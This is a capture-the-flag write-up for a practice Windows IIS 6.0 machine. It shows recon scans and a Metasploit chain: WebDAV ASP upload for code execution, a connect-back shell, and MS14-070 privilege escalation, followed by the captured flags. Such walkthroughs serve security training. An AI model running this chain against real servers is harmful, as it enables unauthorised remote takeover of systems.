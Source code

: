 ### IP
`10.10.10.15`

# Recon

### nmap
`nmap -sC -sV 10.10.10.15 -o Grannynmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-19 11:27 EST
Nmap scan report for 10.10.10.15
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Thu, 19 Nov 2020 16:31:18 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.73 seconds
```
* Looks like theres a webserver on port 80
* We can see that WebDAV is running

### Gobuster
`gobuster dir -u http://10.10.10.15/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o gobusterScan.txt`
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.15/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/19 11:32:36 Starting gobuster
===============================================================
/_private (Status: 301)
/_vti_bin/shtml.dll (Status: 200)
/_vti_bin (Status: 301)
/_vti_log (Status: 301)
/_vti_bin/_vti_aut/author.dll (Status: 200)
/_vti_bin/_vti_adm/admin.dll (Status: 200)
/aspnet_client (Status: 301)
/images (Status: 301)
/Images (Status: 301)
===============================================================
2020/11/19 11:32:49 Finished
===============================================================
```
* looks like any capialization of a directory works, which confirms that this is a windows machine
* `/_vti_bin` looks interesting
	* a quick google search reveals that the machine is probably running a [microsoft sharepoint server](https://social.technet.microsoft.com/Forums/sharepoint/en-US/9d496bd1-170f-4b87-b4b3-5f9ec760921f/sharepoint-service-30-vtibin-folder?forum=sharepointadminlegacy)
	* there's also some indication online that the [directory should not be accessible](https://hackmag.com/security/sharepoint-serving-the-hacker/), which means we have a vulnerability we can exploit  

### nikto
`nikto -h 10.10.10.15`
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.15
+ Target Hostname:    10.10.10.15
+ Target Port:        80
+ Start Time:         2020-11-19 11:30:52 (GMT-5)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 1.1.4322
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-397: HTTP method 'PUT' allows clients to save files on the web server.
+ OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (LOCK UNLOCK SEARCH PROPFIND MKCOL COPY PROPPATCH listed as allowed)
+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: /_private/: FrontPage directory found.
+ OSVDB-3233: /_vti_bin/: FrontPage directory found.
+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.
+ 8018 requests: 0 error(s) and 32 item(s) reported on remote host
+ End Time:           2020-11-19 11:40:35 (GMT-5) (583 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
* We can look at `/_vti_inf.html` for some extra info
	* Looking at the html source, it says `<!-- _vti_inf.html version 0.100>` and `FPVersion="5.0.2.6790"`
* `_vti_bin/fpcount.exe` apparently might let us execute arbitrary commands

# Exploitation

### webdav
* On `msfconsole`, we can run the following:
1. `search webdav`
2. `use exploit/windows/iis/iis_webdav_upload_asp` in order to get remote code execution
3. `set RHOST 10.10.10.15`
4. `set LHOST tun0` in order to have the machine connect back to yours
5. `run`
6. `ps` to find processes running with `NT AUTHORITY`
7. `migrate 3416` (pick the process id that your machine is running as described above)
8. `bg` to put the session into the background (keep note of the number)
9. `use post/multi/recon/local_exploit_suggester` in order to find scripts for privesc
10. `set SESSION 1` (use whatever session number your session was backgrounded to)
11. `set SHOWDESCRIPTION true` to see more details for each suggestion
12. `run`
13. `use exploit/windows/local/ms14_070_tcpip_ioctl` because we want to elevate the system
14. `set SESSION 1`
15. `set LHOST tun0`
16. `run`
```
* Now, we should have admin access. If not, go through the process and migrate steps again
* We can cd to `C:\Documents and Settings\Lakis\Desktop`
	* Using the `cat` command on the meterpreter or the `more` command on the shell, we get the user flag: `700c5dc163014e22b3e408f8703f67d1`

* We can cd to `C:\Documents and Settings\Administrator\Desktop>` to get the root flag: `aa4beed1c0584445ab463a6747bd06e9`

# Notes
* When doing stuff with webdav, there are some useful tools to use:

### davtest
`davtest -url http://10.10.10.15` will give you a list of files that you can upload, rename, edit, etc.

### dave
`dave 10.10.10.15` will show you the full directory of the website, let you traverse it, and even let you upload files